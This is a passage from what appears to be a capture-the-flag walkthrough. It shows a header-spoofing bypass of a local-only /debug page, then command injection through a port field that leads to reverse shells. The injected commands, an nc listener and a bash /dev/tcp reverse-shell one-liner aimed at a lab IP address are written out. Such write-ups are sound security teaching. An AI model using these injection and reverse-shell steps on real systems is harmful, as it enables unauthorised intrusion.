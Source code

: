 5. Proceed with the request, and you will be able to set up a new `PIN`.
    
    ![](https://cdn.hashnode.com/res/hashnode/image/upload/v1692567765038/c87f7ae1-93ba-4826-8f03-c195df07a27b.png align="center")
    
6. After setting up your new `PIN`, you will need to re-enter your login credentials. Once you do that, you will achieve a successful login.
    

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1692567805495/80f8b2ca-8a38-44c7-a46a-508e8eb7fd4a.png align="center")

### Step 6: Debug and Initial Foothold

Unfortunately, we still cannot access the `/debug` webpage because it is only accessible to local users. However, we can bypass this restriction by adding the `X-Forwarded-For` header to our request.

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1692568822375/77b94a7f-697f-4395-9b6c-53e4cd62257d.png align="center")

Revise the request, and we will be granted access to the `/debug` page.

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1692567950746/a10b1a49-df28-45d2-b1ef-259fdb8c3655.png align="center")

From here, we can attach a secondary command to a port like this:

```bash
80; whoami
```

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1692568866125/71c3f37e-6d19-4d6e-9ec3-f06066768766.png align="center")

Let's see if we can obtain a reverse shell from this. First, let's set up our listener:

```bash
rlwrap -cAr nc -lvnp 1337
```

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1692568012419/5e6d20f2-b79f-40ca-a79e-5ba73834a983.png align="center")

Now, let's attach our shell:

```bash
80; nc 10.13.28.215 1337 | bash
```

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1692568057684/a3216654-2bec-423a-83b8-e0163afcdaa5.png align="center")

Perfect, we received a callback. However, we can't do much with this shell, so let's see if we can obtain a better one using a bash one-liner. We'll need to set up another listener to catch this one.

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1692568082921/8565abad-6bad-42c2-9704-7e1c95484d2f.png align="center")

Now, let's initiate a better shell:

```bash
bash -i >& /dev/tcp/10.13.28.215/13337 0>&1
```

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1692568105789/cd419d6f-8013-4524-8cf4-9fc02a4e7ee0.png align="center")
